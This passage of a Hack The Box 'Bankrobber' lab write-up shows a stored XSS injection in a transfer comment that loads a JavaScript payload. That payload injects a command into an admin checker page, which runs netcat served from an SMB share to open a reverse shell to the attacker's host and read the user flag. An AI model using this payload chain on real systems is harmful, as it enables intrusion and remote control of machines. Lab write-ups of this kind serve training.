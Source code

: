 ```bash
luc@kali:~/HTB/Bankrobber$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
6:41:38.830727 IP 10.10.10.154 > 10.10.14.16: ICMP echo request, id 1, seq 1, length 40
16:41:38.830740 IP 10.10.14.16 > 10.10.10.154: ICMP echo reply, id 1, seq 1, length 40
```

We've now confirmed code execution on the machine and we can use this to start a reverse shell.

```bash
luc@kali:~/HTB/Bankrobber$ cp /home/luc/Downloads/netcat-win32-1.12/nc64.exe .
luc@kali:~/HTB/Bankrobber$ sudo python2 /opt/impacket/examples/smbserver.py share `pwd` -smb2support
```

We need `nc.exe` available to the machine so we run a SMB share

```javascript
var cmd = "dir | \\\\10.10.14.16\\share\\nc64.exe -e cmd 10.10.14.16 443";
var http = new XMLHttpRequest();
var url = 'http://localhost/admin/backdoorchecker.php';
var params = 'cmd='+cmd;
http.open('POST', url, true);
http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
http.send(params);
```

We need to update the Javascript payload

```http
POST /user/transfer.php HTTP/1.1

fromId=10&toId=1&amount=1&comment=<script+src%3dhttp%3a//10.10.14.16/payload.js></script>
```

```bash
luc@kali:~/HTB/Bankrobber$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.154.
Ncat: Connection from 10.10.10.154:53308.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. Alle rechten voorbehouden.

C:\xampp\htdocs\admin>whoami
bankrobber\cortin

C:\xampp\htdocs\admin>cd \Users\cortin\Desktop

C:\Users\Cortin\Desktop>type user.txt
f6353466************************
```

## Privilege escalation
